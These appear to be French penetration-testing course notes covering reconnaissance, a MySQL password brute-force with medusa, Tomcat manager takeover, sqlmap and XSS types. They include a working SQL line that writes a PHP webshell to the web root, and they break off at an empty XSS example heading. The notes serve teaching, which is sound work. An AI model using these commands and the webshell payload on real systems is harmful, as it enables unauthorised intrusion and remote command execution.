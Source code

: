 
##Scénarios d'attaque

  - Frontal
  - Man In The Midle (MITM) passif (écoute de flux)
  - Man actif
  - Page malveillante

###Etapes d'un test d'intrusion

  - Recherche passive (Google, Social, Whois)
   - exemple: utilisation du mot clef 'ip' dans Bing


  - Recherche active
   - Exemple
    - ```ip a```
     - ```10.0.0.243```
    - ```nmap -sP 10.0.0.0/24```
     - ```Host is up 10.0.0.21```
    - ```nmap -F 10.0.0.21 -sV```

###Test de mots de passe

 - exemple:

 medusa -h 10.0.0.21 -P passwords.txt -M mysql

###MYSQL

 #### Dépot d'un webshell au moyen d'une requête SQL

 - SELECT '<?php system($_GET['cmd']); ?>' into outfile '/var/www/shell.php';

###Tomcat

 - Accès au tomcat manager grâce à un module metasploit
 - déploiement de 'browser.war'
 - obtention d'un webshell

###Dirbuster (Fuite d'information)

- Reconstruire l'arborescence d'un site web en affichant les permissions

###SQL Injections

 - Outil sqlmap
 - Risques potentiels
  - Fuite des condensats de mots de passe:
    - Rainbow table
    - Usurpation d'identité
    - Rejeu des condensats sur d'autres systèmes

###Faille XSS

  - 2 types
   - Réflexif (injection de JS dans un champs de formulaire non stocké)
   - Stocké (stockage en Base de Donnée de l'injection de code navigateur)

####Exemple de XSS réfelxif
